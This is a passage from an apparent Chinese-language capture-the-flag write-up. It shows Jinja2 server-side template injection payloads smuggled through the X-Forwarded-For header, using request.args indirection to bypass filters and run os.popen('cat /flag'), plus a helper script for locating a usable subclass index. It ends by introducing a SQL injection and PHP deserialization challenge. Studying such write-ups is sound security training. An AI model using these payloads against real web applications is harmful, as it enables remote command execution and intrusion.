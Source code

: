 在class中寻找模块exp：

```
#python 3
import re
str = '''

（回显信息）

'''

list = re.split(',', str)

for i in range(0, len(list)):
      if 'catch_warnings' in list[i]:
            print(i)
            break
```

playload：

```
?x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__
&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('cat+/flag').read()

X-Forwarded-For:{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()
|attr(request.args.x4)(174)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)
|attr(request.args.x4)(request.args.x8)(request.args.x9)}}
```

复现时补充：

我的原来那个中括号的做法时走得通的，然后os模块也可以的，只是当时可能由于某些玄学原因没成功，这里补上：

```
XFF：{{ [][request.args.class][request.args.mro][1][request.args.subclasses]()[127] }}
//回显：Your IP: <class 'os._wrap_close'>

GET ：?class=__class__&mro=__mro__&subclasses=__subclasses__&init=__init__&globals=__globals
__&builtins=__builtins__&eval=eval&cmd=__import__("os").popen("cat+/flag").read()

x-forwarded-for: {{ [][request.args.class][request.args.mro][1][request.args.subclasses]()
[127][request.args.init][request.args.globals][request.args.builtins][request.args.eval]
(request.args.cmd) }}
```

 

 

 

### ezbypass

考察：过滤逗号等号的无列名注入，PHP反序列化字符逃逸

这道题两个步骤，第一层是sqli，第二层是反序列化字符串逃逸
